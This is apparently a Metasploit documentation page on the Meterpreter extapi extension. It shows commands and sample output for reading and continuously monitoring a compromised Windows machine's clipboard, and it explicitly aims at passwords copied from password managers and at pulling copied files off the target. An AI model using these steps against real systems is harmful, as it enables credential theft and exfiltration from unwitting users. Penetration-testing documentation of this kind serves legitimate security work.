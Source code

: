 
**Using the extapi Extension**

The main purpose of the extapi extension is to perform advanced enumeration of the target machine. For
example, you can enumerate things like registered services, open windows, clipboard, ADSI, WMI queries, etc.

To begin, at the Meterpreter prompt, do:

```
meterpreter > load extapi
Loading extension extapi...success.
meterpreter > 
```

One great feature of the extension is clipboard management. The Windows clipboard is interesting
because it can store anything that is sensitive, such as files, user names, and passwords, but it is not well protected.

For example, a password manager is a popular tool to store encryped passwords. It allows the user
to create complex passwords without the need to memorize any of them. All the user needs to do is
open the password manager, retrieve the password for a particular account by copying it, and then
paste it on a login page.

There is a security problem to the above process. When the user copies the password, it is stored
in the operating system's clipboard. As an attacker, you can take advantage of this by starting the
clipboard monitor from Meterpreter/extapi, and then collect whatever the user copies.

To read whatever is currently stored in the target's clipboard, you can use the clipboard_get_data
commnad:

```
meterpreter > clipboard_get_data
Text captured at 2016-03-05 19:13:39.0170
=========================================
hello, world!!
=========================================

meterpreter > 
```

The limitation of this command is that since you're only grabbing whatever is in the clipboard at
the time, there is only one item to collect. However, when you start a monitor, you can collect
whatever goes in there. To start, issue the following command:

```
meterpreter > clipboard_monitor_start
[+] Clipboard monitor started
meterpreter > 
```

While it is monitoring, you can ask Meterpreter to dump whatever's been captured.

```
meterpreter > clipboard_monitor_dump
Text captured at 2016-03-05 19:18:18.0466
=========================================
this is fun.
=========================================

Files captured at 2016-03-05 19:20:07.0525
==========================================
Remote Path : C:\Users\user\Desktop\cat_pic.png
File size   : 37627 bytes
downloading : C:\Users\user\Desktop\cat_pic.png -> ./cat_pic.png
download    : C:\Users\user\Desktop\cat_pic.png -> ./cat_pic.png

==========================================

[+] Clipboard monitor dumped
```